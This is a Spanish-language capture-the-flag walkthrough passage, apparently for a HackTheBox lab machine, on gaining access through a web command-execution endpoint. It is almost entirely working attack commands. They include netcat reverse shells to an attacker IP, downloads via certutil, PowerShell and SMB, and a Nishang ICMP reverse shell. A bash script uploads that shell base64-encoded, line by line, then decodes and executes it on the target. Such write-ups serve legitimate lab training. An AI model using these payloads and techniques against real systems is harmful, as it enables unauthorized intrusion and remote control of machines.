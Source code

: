 ## Explotacion de vulnerabilidad & Ganando Acceso {-}

### Entablar una reverse shell {-}

1. Nos ponemos en escucha por el puerto 443

    ```bash
    rlwrap nc -nlvp 443
    ```

1. Preparamos un nc.exe para la maquina victima

    ```bash
    locate nc.exe
    cp /usr/share/sqlninja/apps/nc.exe ./content
    ```

1. Nos creamos un registro compartido a nivel de red

    ```bash
    cd content
    impacket-smbserver smbFolder $(pwd) -smb2support
    ```

1. En la web

    ```bash
    http://10.10.10.57:62696/test.asp?u=http://localhost/cmd.aspx?xcmd=\\10.10.14.8\smbFolder\nc.exe -e cmd 10.10.14.8 443
    ```

En este caso no responde y vemos un exit status 1. Intentamos de varias maneras

1. Nos creamos un registro compartido a nivel de red

    ```bash
    impacket-smbserver smbFolder $(pwd) -smb2support -username s4vitar -password s4vitar123
    ```

```bash
http://10.10.10.57:62696/test.asp?u=http://localhost/cmd.aspx?xcmd=net use x: \\10.10.14.8\smbFolder /user:s4vitar s4vitar123
```

No responde y vemos un exit status 2.

Intentamos con un servidor web.

1. Nos creamos un servidor web

    ```bash
    python3 -m http.server 80
    ```

```bash
http://10.10.10.57:62696/test.asp?u=http://localhost/cmd.aspx?xcmd=certutil.exe -f -urlcache -split http://10.10.14.8/nc.exe nc.exe
http://10.10.10.57:62696/test.asp?u=http://localhost/cmd.aspx?xcmd=powershell iwr -uri http://10.10.14.8/nc.exe -OutFile test
```

No responde y vemos un exit status que no es 0.

Aqui vemos que las conexiones por TCP no funcionan. Puede ser porque hay reglas definidas que no permiten utilizar TCP y S4vitar
nos adelanta que tampoco funccionna por UDP.

Aqui hemos podido comprobar que:

- tenemos capacidad de ejecucion remota de commando.
- tenemos conectividad por trasa ICMP
- el protocolo TCP esta bloqueado
- el protocole UDP esta bloqueado

Segun esta analisis intentamos crearnos una reverse shell por **ICMP**

### Entablar una reverse shell por ICMP {-}

1. Nos descargamos el Nishang

    ```bash
    git clone https://github.com/samratashok/nishang
    cd nishang
    cd Shells
    cp Invoke-PowerShellIcmp.ps1 ../../icmp.ps1
    cd ../..
    vi icmp.ps1
    ```

Aqui como tenemos que pasar por la url de la web para enviarnos el fichero, tenemos que preparar el fichero.

1. Ejecucion de comandos prealables en nuestra maquina

    ```bash
    sysctl -w net.ipv4.icmp_echo_ignore_all=1
    wget https://raw.githubusercontent.com/bdamele/icmpsh/master/icmpsh_m.py
    ```

1. Añadimos el invoke al final del fichero

    ```bash
    Invoke-PowerShellIcmp -IPAddress 10.10.14.8
    ```

1. Borramos todo los comentarios que hay en el fichero
1. Borramos todo los saltos de linea

    ```bash
    cat icmp.ps1 | sed '/^\s*$/d' > icmp
    rm icmp.ps1
    mv icmp icmp.ps1
    ```

1. Utilizamos una powershell

    ```bash
    pwsh
    ```

1. Codificamos el fichero en base64

    ```bash
    $fileContent = Get-Content -Raw ./icmp.ps1
    $fileContent
    $bytes = [System.Text.Encoding]::Unicode.GetBytes($fileContent)
    $encode = [Convert]::ToBase64String($bytes)
    $encode | Out-File icmp.ps1.b64
    ```

1. En una shell linux normal modificamos los symbolos `+` y `=` para encodearlos en urlencode

    ```bash
    php --interactive
    print urlencode("+");
    %2B
    print urlencode("=");
    %3D
    ```

1. Modificamos todos los symbolos `+` por **%2B** y los symbolos `=` por **%3D**
1. Spliteamos el fichero en dimensiones de lineas iguales

    ```bash
    fold icmp.ps1.b64 > icmp
    ```

1. Nos creamos un script para automatizar el envio de cada linea del fichero

    ```bash
    #!/bin/bash

    function ctrl_c(){
        echo -e "\n\n[!] Saliendo...\n"
        exit 1
    }
    
    # Ctrl+C
    trap ctrl_c INT

    for line in $(cat icmp.ps1.b64); do
        command="echo ${line} >> C:\Temp\reverse.ps1"
        curl -s -v -X GET "http://10.10.10.57:62696/test.asp?u=http://localhost/cmd.aspx" --data-urlencode "xcmd=$command"
    done
    ```

1. Lanzamos el Script

    ```bash
    ./fileUpload.sh
    ```

1. Controlamos en la web si el fichero existe

    ```bash
    http://10.10.10.57:62696/test.asp?u=http://localhost/cmd.aspx?xcmd=type C:\Temp\reverse.ps1
    ```

    Vemos el status code a 0

1. Decodificamos desde la web el fichero que esta en base64
    
    - las etapas serian estas

        ```bash
        $file = Get-Content C:\Temp\reverse.ps1 
        $decode = [System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String($file))
        $decode > C:\Temp\pwned.ps1
        ```

    - y en la url de la web seria:

        ```bash
        http://10.10.10.57:62696/test.asp?u=http://localhost/cmd.aspx?xcmd=powershell $file = Get-Content C:\Temp\reverse.ps1; $decode = [System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String($file)); $decode > C:\Temp\pwned.ps1
        ```

1. Lanzamos el script python previamente descargado

    ```bash
    rlwrap python icmpsh_m.py 10.10.14.8 10.10.10.57
    ```

1. Ejecutamos el pwned.ps1 desde la web

    ```bash
    http://10.10.10.57:62696/test.asp?u=http://localhost/cmd.aspx?xcmd=powershell C:\Temp\pwned.ps1
    ```

Por fin estamos adentro de la maquina ;)

